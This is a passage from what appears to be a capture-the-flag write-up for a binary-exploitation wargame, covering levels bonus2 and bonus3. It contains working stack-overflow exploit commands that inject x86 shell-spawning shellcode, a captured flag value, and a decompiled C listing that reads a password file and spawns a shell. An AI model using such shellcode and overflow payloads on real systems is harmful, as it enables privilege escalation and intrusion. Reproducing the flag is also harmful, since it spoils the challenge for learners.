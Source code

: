 	```bash
	LANG=fi ./bonus2 `python -c 'print "\x90"*(41-28) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'` `python -c 'print "B"*18 + "\xb0\xf6\xff\xbf"'`
	```

6. GDB

	```bash
	run $(python -c 'print("A" * 2 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * 14)') $(python -c 'print("B" * 18 + "\x14\xf6\xff\xbf")')
	```


## BONUS2 - FLAG

71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587

## BONUS3 - BINARY ANALYSIS

```c
undefined4 main(int argc,char *argv[])
{
	undefined4 uVar1;
	int i;
	char *pointer;
	byte byte_value;
	char buff65[65];
	undefined unused_var;
	char buff66[66];
	FILE *file_ptr;

	byte_value = 0;
	file_ptr = fopen("/home/user/end/.pass","r");
	pointer = buff65;
	for (i = 33; i != 0; i = i + -1) {
		pointer[0] = '\0';
		pointer[1] = '\0';
		pointer[2] = '\0';
		pointer[3] = '\0';
		pointer = pointer + ((uint)byte_value * -2 + 1) * 4;
	}
	if ((file_ptr == (FILE *)0x0) || (param_1 != 2)) {
		uVar1 = 0xffffffff;
	}
	else {
		fread(buff65,1,66,file_ptr);
		unused_var = 0;
		i = atoi(*(char **)(argv[1]));
		buff65[i] = '\0';
		fread(buff66,1,65,file_ptr);
		fclose(file_ptr);
		i = strcmp(buff65,*(char **)(argv[1]));
		if (i == 0) {
			execl("/bin/sh","sh",0);
		}
		else {
			puts(local_56);
		}
		uVar1 = 0;
	}
	return uVar1;
}
```
